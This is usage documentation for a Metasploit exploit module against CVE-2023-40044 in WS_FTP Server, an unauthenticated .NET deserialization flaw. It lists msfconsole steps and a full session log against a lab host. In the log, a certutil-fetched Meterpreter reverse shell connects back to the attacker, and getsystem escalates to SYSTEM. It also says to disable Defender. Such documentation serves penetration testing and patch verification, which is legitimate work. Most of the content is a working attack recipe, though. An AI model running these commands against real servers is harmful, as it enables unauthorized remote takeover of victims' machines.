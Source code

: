 ## Vulnerable Application
This module exploits an unsafe .NET deserialization vulnerability to achieve unauthenticated remote code
execution against a vulnerable WS_FTP server running the Ad Hoc Transfer module. All versions of WS_FTP Server
prior to 2020.0.4 (version 8.7.4) and 2022.0.2 (version 8.8.2) are vulnerable to this issue. The vulnerability was
originally discovered by AssetNote.

For a full technical analysis of the vulnerability read the
[Rapid7 AttackerKB Analysis](https://attackerkb.com/topics/bn32f9sNax/cve-2023-40044/rapid7-analysis).

## Testing
Download and install a vulnerable version of WS_FTP server. By default the server will listen for HTTPS connections
on port 443. The vulnerability is in the Ad Hoc Transfer module which is installed by default. This exploit
module was tested against WS_FTP Server 2020.0.1 (version 8.7.1) and WS_FTP Server 2022.0.1 (version 8.8.1).

## Verification Steps
Note: Disable Defender if you are using the default payloads.

Steps:
1. Start msfconsole
2. `use exploit/windows/http/ws_ftp_rce_cve_2023_40044`
3. `set LHOST eth0`
4. `set RHOST <TARGET_IP>`
5. `check`
6. `exploit`

## Scenarios

### Windows
```
msf6 exploit(windows/http/ws_ftp_rce_cve_2023_40044) > set LHOST eth0
LHOST => eth0
msf6 exploit(windows/http/ws_ftp_rce_cve_2023_40044) > set RHOST 192.168.86.47
RHOST => 192.168.86.47
msf6 exploit(windows/http/ws_ftp_rce_cve_2023_40044) > show options

Module options (exploit/windows/http/ws_ftp_rce_cve_2023_40044):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS      192.168.86.47    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basi
                                          cs/using-metasploit.html
   RPORT       443              yes       The target port (TCP)
   SSL         true             no        Negotiate SSL/TLS for outgoing connections
   TARGET_URI  /AHT/            no        Target URI used to exploit the deserialization vulnerability. Must begin with
                                          /AHT/
   VHOST                        no        HTTP server virtual host


Payload options (cmd/windows/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   EXITFUNC            process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   FETCH_COMMAND       CERTUTIL         yes       Command to fetch payload (Accepted: CURL, TFTP, CERTUTIL)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      BkxJVzFxHwL      no        Name to use on remote system when storing payload; cannot contain spac
                                                  es.
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR  %TEMP%           yes       Remote writable dir to store payload; cannot contain spaces.
   LHOST               eth0             yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows



View the full module info with the info, or info -d command.

msf6 exploit(windows/http/ws_ftp_rce_cve_2023_40044) > check
[*] 192.168.86.47:443 - The target appears to be vulnerable. Detected a build date of 27-8-2021
msf6 exploit(windows/http/ws_ftp_rce_cve_2023_40044) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Detected a build date of 27-8-2021
[*] Sending stage (200774 bytes) to 192.168.86.47
[*] Meterpreter session 1 opened (192.168.86.42:4444 -> 192.168.86.47:61513) at 2023-10-04 17:00:10 +0100

meterpreter > sysinfo
Computer        : WIN-9SIICLTVVC7
OS              : Windows 2016+ (10.0 Build 20348).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 4
Meterpreter     : x64/windows
meterpreter > pwd
C:\Windows\SysWOW64\inetsrv
meterpreter > getuid
Server username: NT AUTHORITY\NETWORK SERVICE
meterpreter > getsystem
...got system via technique 4 (Named Pipe Impersonation (RPCSS variant)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```
